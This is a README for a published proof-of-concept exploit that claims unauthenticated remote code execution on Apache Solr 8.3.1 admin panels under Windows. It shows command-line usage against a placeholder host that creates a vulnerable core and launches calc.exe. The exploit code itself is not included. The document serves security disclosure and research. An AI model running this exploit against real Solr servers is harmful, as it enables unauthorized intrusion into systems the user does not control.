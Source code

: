 # Apache Solr 8.3.1 admin panel RCE (Windows)

### Description:
This exploit allows code execution without any prior authentication on a default Solr admin panel.

### Authors:
   - Nicolas Brunner - SCRT
   
### Writeup
[https://blog.scrt.ch](https://blog.scrt.ch)

### PoC:
![](fullPoc.gif)

### Examples:

##### If no core exists, create the core from the default folder:
```bash
./exploit.py -u http://example.com/solr --default-core -c core_123
```
##### Using the existing core named core_123, create a new vulnerable core and execute calc.exe:
```bash
./exploit.py -u http://example.com/solr -f calc.xml -c core_123
```

### Installation:

##### Installation of the required python libraries
```bash
pip3 install -r requirements.txt
```